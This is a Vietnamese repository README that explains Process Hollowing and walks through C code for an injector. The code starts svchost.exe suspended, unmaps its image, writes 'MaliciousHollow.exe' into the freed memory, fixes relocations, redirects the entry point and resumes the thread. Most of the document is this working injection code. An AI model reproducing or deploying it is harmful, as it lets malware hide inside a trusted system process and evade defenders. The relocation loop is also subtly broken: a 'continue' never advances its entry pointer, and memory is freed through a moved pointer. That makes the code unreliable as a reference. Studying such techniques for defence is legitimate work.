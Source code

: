 # ProcHollow
Repository này thực hiện xây dựng một chương trình tiến hành kỹ thuật Process Hollowing trên tiến trình svchost.exe.
# Một số kiến thức
Tham khảo từ https://hackmd.io/@Wh04m1/Sk4ZLgGc6

Khi tiến hành tạo một process, Kernel mở file thực thi và kiểm tra -> File PE hợp lệ thì kernel tạo 1 kernel process object và 1 kernel thread object đại diện cho process và thread mới -> kernel ánh xạ image và NTDLL.DLL vào không gian bộ nhớ của tiến trình
-> thông báo cho tiến trình quản lý csrss.exe về process mới được tạo.

Tới đây, một tiến trình được kernel coi là khởi tạo thành công. Tiếp theo là quá trình khởi tạo context bên trong process.
Đối tượng quản lý process ở không gian người dùng là Process Environment Block và Thread Environment Block được khởi tạo -> Khởi tạo các thuộc tính khác, như heap, thread pool -> Tải các DLL cần thiết -> Khởi chạy tại entry point.

Nếu sử dụng API CreateProcess() với cờ CREATE_SUSPENDED, process mới được tạo sẽ ở trạng thái ngưng và chỉ có thể tiếp tục bằng API ResumeThread(). Khi được tạo ở trạng thái này, process sẽ được khởi tạo đến bước tạo PEB và TEB, còn các quá trình
tạo heap, tải DLL, chạy tại entry point vẫn chưa được thực hiện. Kỹ thuật Process Hollowing sẽ lợi dụng điều này: tại một process bị suspended, xóa bỏ image gốc được nạp ban đầu, thay thế bằng image độc hại, thiết lập các context của image cho phù hợp và khiến process
chạy image độc hại thay vì chương trình ban đầu.

# Các bước thực hiện
Tại phần mềm injector, trước hết cần định nghĩa một số function và cấu trúc quan trọng cần dùng
```C
typedef NTSTATUS(NTAPI* pfnNtUnmapViewOfSection)(HANDLE ProcessHandle, PVOID BaseAddress);
typedef NTSTATUS(NTAPI* pfnNtQueryInformationProcess)(HANDLE ProcessHandle, PROCESSINFOCLASS ProcInfoClass,
	PVOID ProcInfor, ULONG ProcInfoLen, PULONG ReturnLen);
HMODULE hNTDLL = GetModuleHandleA("NTDLL.DLL");	// Mo NTDLL
// Lay dia chi ham NtUnmapViewOfSection
pfnNtUnmapViewOfSection pNtUnmapViewOfSection = (pfnNtUnmapViewOfSection)GetProcAddress(hNTDLL, "NtUnmapViewOfSection");
pfnNtQueryInformationProcess pNtQueryInformationProcess = (pfnNtQueryInformationProcess)GetProcAddress(hNTDLL, "NtQueryInformationProcess");
```
NtQueryInformationProcess là API dùng để lấy thông tin của Process, NtUnmapViewOfSection là API dùng để unmap vùng nhớ đã được cấp phát. Hai Native API này của Windows, được định nghĩa trong thư viện NTDLL.DLL
nhưng chưa được khai báo sẵn trong Windows SDL nên cần khai báo con trỏ hàm cho 2 API này để gán vào địa chỉ hàm đọc từ NTDLL ra.

Tiếp theo là định nghĩa một số cấu trúc struct chưa được định nghĩa đầy đủ là PEB_LDR_DATA, PEB_FREE_BLOCK, _UNICODE_STR, PEB, IMAGE_RELOC
## 1. Tạo mới process
Tạo mới process với API CreateProcess() trong đó cần truyền vào đường dẫn của tiến trình nạn nhân, cờ CREATE_SUSPENDED và hai struct STARTUPINFO + PROCESS_INFORMATION. STARTUPINFO là một cấu trúc dùng để chỉ định các thuộc tính khởi tạo của một tiến trình
gồm cách cửa sổ tiến trình hiển thị, giao diện và môi trường chạy. 
```C
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION;

```
PROCESS_INFORMATION là cấu trúc chứa thông tin về tiến trình và luồng chính được tạo ra, nhận lại thông tin về tiến trình: handle Process và Thread, ProcessId, ThreadId.
```C
STARTUPINFO si;
PROCESS_INFORMATION pi;

ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
ZeroMemory(&pi, sizeof(pi));
WCHAR victim[] = L"C:\\Windows\\System32\\svchost.exe";
if (!CreateProcess(NULL,    // No module name
    victim,                // CommandLine chua duong dan tien trinh duoc thuc thi
    NULL,                   // Process handle khong duoc ke thua
    NULL,                   // Thread handle khong duoc ke thua
    FALSE,                  // Handle khong duoc ke thua
    CREATE_SUSPENDED,       // creation flag == suspend
    NULL,                   // Su dung parent's environment block
    NULL,                   // Su dung start directiory cua parent
    &si,                    // pointer toi STARTUPINFO
    &pi                     // pointer toi PROCESS_INFORMATION
))
{
    std::cout << "Create process fail." << GetLastError() << std::endl;
    return 1;
}
```
Sau khi tạo tiến trình bị suspended, đọc thông tin của qua NtQueryInformationProcess, sử dụng struct PROCESS_BASIC_INFORMATION
```C
typedef struct _PROCESS_BASIC_INFORMATION {
    PVOID Reserved1;
    PPEB  PebBaseAddress;
    PVOID Reserved2[2];
    ULONG_PTR UniqueProcessId;
    ULONG_PTR InheritedFromUniqueProcessId;
} PROCESS_BASIC_INFORMATION;
```
Sử dụng ReadProcessMemory để đọc thông tin tại địa chỉ PebBaseAddress vào một biến PEB. Lấy được PEB.lpImageBaseAddress và Base Image Address của tiến trình.
Sử dụng NtUnmapViewOfSection để unmap vùng nhớ địa chỉ lpImageBaseAddress.

## 2. Tải image mới vào vùng nhớ đã hollowing
Mở và đọc file thực thi của tiến trình độc hại.
```C
WCHAR imagePath[] = L"..\\MaliciousHollow.exe";
HANDLE hFile = CreateFileW(imagePath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL); // mo file
DWORD rawImageSize = GetFileSize(hFile, NULL);	// lay kich thuoc file
LPVOID buffer = VirtualAlloc(NULL, rawImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
ReadFile(hFile, buffer, rawImageSize, NULL, NULL); // doc file, ghi vao buffer
CloseHandle(hFile);
```
Sau đó, cấp phát vùng nhớ tại chính vị trí đã hollowing, với kích thước là kích thước image tiến trình độc hại
```C
PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((ULONG_PTR)buffer + ((PIMAGE_DOS_HEADER)buffer)->e_lfanew);
LPVOID imageBase = VirtualAllocEx(pi.hProcess, peb.lpImageBaseAddress, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```
Ta sẽ copy header và các section vào vùng nhớ này. Theo Copilot giải thích, một số chương trình như SVCHOST.EXE có cơ chế kiểm tra nội bộ PEB->ImageBaseAddress nên cần phải cập nhật lại header của image giá trị ImageBase mới giống với PEB
của tiến trình SVCHOST.EXE rồi mới copy header vào vùng nhớ.
```C
ULONG_PTR delta = (ULONG_PTR)imageBase - ntHeader->OptionalHeader.ImageBase;
ntHeader->OptionalHeader.ImageBase = (ULONG_PTR)imageBase;
ULONG_PTR uValueA = ntHeader->OptionalHeader.SizeOfHeaders;
// copy header
WriteProcessMemory(pi.hProcess, imageBase, buffer, uValueA, NULL);
// copy section
uValueA = (ULONG_PTR)ntHeader + sizeof(IMAGE_NT_HEADERS);
ULONG_PTR uValueB = ntHeader->FileHeader.NumberOfSections;
while (uValueB)
{
	ULONG_PTR Src = (ULONG_PTR)buffer + ((PIMAGE_SECTION_HEADER)uValueA)->PointerToRawData;
	ULONG_PTR Des = (ULONG_PTR)imageBase + ((PIMAGE_SECTION_HEADER)uValueA)->VirtualAddress;
	WriteProcessMemory(pi.hProcess, (LPVOID)Des, (LPVOID)Src, (((PIMAGE_SECTION_HEADER)uValueA)->SizeOfRawData), NULL);
	// to next section
	uValueA += sizeof(IMAGE_SECTION_HEADER);
	uValueB--;
}
```
Trong quá trình sao chép image này, chúng ra sẽ tiến hành cả xử lý Relocation. Lưu ý, khác với Reflective DLL injection, nơi mà ReflectiveLoader thực thi là trong nội bộ tiến trình nạn nhân nên nó có thể truy cập trực tiếp vùng nhớ Relocation qua con trỏ.
Ở đây, injector đóng vai trò là một tiến trình bên ngoài tiến trình SVCHOST.EXE nên không thể truy cập trực tiếp vùng nhớ đã ghi vào trong SVCHOST.EXE. Cần phải dùng ReadProcessMemory đọc Reloc Table, sau đóc duyệt qua Reloc Table.
Với mỗi entry, sử dụng ReadProcessMemory để lấy ra giá trị Reloc, cộng delta ImageBase và ghi lại qua WriteProcessMemory.
```C
PIMAGE_DATA_DIRECTORY RelocDir = &(ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC]);

if (delta)
{
	if (RelocDir->Size)
	{
		uValueA = (ULONG_PTR)imageBase + RelocDir->VirtualAddress; // dia chi cua reloc table trong bo nho
		LPVOID RelocBuffer = VirtualAlloc(NULL, RelocDir->Size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
		ReadProcessMemory(pi.hProcess, (LPVOID)uValueA, RelocBuffer, RelocDir->Size, NULL);
		// Image dang nam tren vung nho nam ngoai pham vi truy cap truc tiep cua con tro thuoc ProHollow, can Read, Write Process
		while (((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock)
		{
			// Lay dia chi page tuong ung voi relocation block nay
			uValueB = (ULONG_PTR)imageBase + ((PIMAGE_BASE_RELOCATION)RelocBuffer)->VirtualAddress;
			ULONG_PTR numberEntry = (((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(IMAGE_RELOC);
			PIMAGE_RELOC pEntry = (PIMAGE_RELOC)((ULONG_PTR)RelocBuffer + sizeof(IMAGE_BASE_RELOCATION));// Dang o day
			while (numberEntry)
			{

				if (pEntry->type == 0)
					continue;
				ULONG_PTR relocPos = uValueB + pEntry->offset;
				ULONG_PTR relocPosData = 0;
				BOOL c =ReadProcessMemory(pi.hProcess, (LPVOID)relocPos, &relocPosData, sizeof(relocPosData), NULL);
				relocPosData += delta;
				BOOL d = WriteProcessMemory(pi.hProcess, (LPVOID)relocPos, &relocPosData, sizeof(relocPosData), NULL);
				// next
				pEntry++;
				numberEntry--;
			}
			RelocBuffer = (LPVOID)((ULONG_PTR)RelocBuffer + ((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock);
		}

		VirtualFree(RelocBuffer, 0, MEM_RELEASE);
	}
}
```
## 3. Cập nhật giá trị entry point cho tiến trình SVCHOST.EXE
```C
CONTEXT context = { 0 };
context.ContextFlags = CONTEXT_FULL;
GetThreadContext(pi.hThread, &context);
context.Rcx = (ULONG_PTR)imageBase + ntHeader->OptionalHeader.AddressOfEntryPoint;
SetThreadContext(pi.hThread, &context);
```
## 4. Gọi ResumeThread
```C
ResumeThread(pi.hThread);
```
